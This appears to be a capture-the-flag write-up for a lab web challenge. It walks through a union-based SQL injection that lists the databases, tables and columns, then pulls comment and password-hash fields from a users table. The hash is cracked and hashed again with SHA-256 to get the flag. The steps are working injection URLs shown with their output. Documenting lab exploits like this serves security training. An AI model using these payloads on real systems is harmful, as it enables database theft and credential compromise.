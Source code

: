 # http://192.168.99.100/?page=member&id=1&Submit=Submit

### getting current database name and listing all databases:

`http://192.168.99.100/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit`

##### result:

```
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey
```

so current database is `Member_Sql_Injection`,
the other databases are `Member_Brute_Force`, `Member_guestbook`, `Member_images`, `Member_survey`



### getting a list of tables in current database:


`http://192.168.99.100/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit`

##### result:

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03
```

so our database has a table called `users`


### listing all column names and types:
`http://192.168.99.100/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit`

##### result:

```
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)
```

so we have the columns `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`

### getting the juicy info:

`http://192.168.99.100/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit`


##### result:

```
ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```


### solution:
googling the hash `5ff9d0165b4f92b14994e5c685cdce28` produces the original string `FortyTwo`

as per instructions SHA-256 of `fortytwo` is:

#### `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

we have the flag, great success


